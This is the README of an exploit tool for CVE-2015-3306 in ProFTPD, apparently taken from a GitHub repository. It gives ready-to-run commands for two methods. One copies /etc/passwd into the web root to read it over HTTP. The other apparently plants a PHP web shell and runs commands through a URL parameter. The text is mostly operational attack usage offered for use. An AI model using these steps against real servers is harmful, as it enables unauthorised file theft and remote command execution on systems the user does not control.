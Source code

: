 # cpx_proftpd.py (by daldana)

Tool for exploit [CVE-2015-3306](http://bugs.proftpd.org/show_bug.cgi?id=4169) reported by Vadim Melihow

METHOD 1:
--------
usage: 

  ```python cpx_proftp.py 1 <IP> <REMOTE_FULLPATH_SRC_FILE> <REMOTE_FULLPATH_DST_FILE>```

ex:

  ```python cpx_proftp.py 1 127.0.0.1 /etc/passwd /var/www/pass.txt```

then try:

  ```http://127.0.0.1/pass.txt```

METHOD 2:
--------

usage: 

  ```python cpx_proftp.py 2 <IP> <REMOTE_FULLPATH_APACHE2>```

ex:

  ```python cpx_proftp.py 2 127.0.0.1 /var/www/html```

then try:

  ```http://127.0.0.1/xxx.php?img=ls```
